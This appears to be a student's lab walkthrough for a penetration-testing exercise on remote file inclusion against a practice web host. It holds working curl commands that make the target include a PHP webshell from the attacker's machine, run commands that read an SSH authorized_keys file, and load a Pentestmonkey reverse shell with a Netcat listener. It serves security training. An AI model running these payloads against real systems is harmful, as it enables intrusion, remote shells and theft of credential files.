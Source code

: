 1. Follow the steps from this section to leverage RFI to remotely include the **/usr/share/webshells/php/simple-backdoor.php** PHP file. Use the "cmd" parameter to execute commands on VM #1 and use the **cat** command to view the contents of the **authorized_keys** file in the **/home/elaine/.ssh/** directory. The file contains one entry including a restriction for allowed commands. Find the flag specified as the value to the command parameter in this file.

```bash
# Setting a Python web server
python -m http.server 80

# Accessing the remote file
curl "http://mountaindesserts.com/meteor/index.php?page=http%3A%2F%2F192%2E168%2E45%2E181%3A80%2Fbackdoor%2Ephp&cmd=cat%20%2Fhome%2Felaine%2F%2Essh%2Fauthorized%5Fkeys"
curl "http://mountaindesserts.com/meteor/index.php?page=http%3A%2F%2F192%2E168%2E45%2E181%3A80%2Fjojo%2Etxt"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.181/simple-backdoor.php&cmd=ls"

```


2. Instead of including the /usr/share/webshells/php/simple-backdoor.php webshell, include the PHP reverse shell from Pentestmonkey's Github repository. Change the $ip variable to the IP of your Kali machine and $port to 4444. Start a Netcat listener on port 4444 on your Kali machine and exploit the RFI vulnerability on VM #2 to include the PHP reverse shell. Find the flag in the /home/guybrush/.treasure/flag.txt file.


```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.181/monkey_reverse_shell.php"
```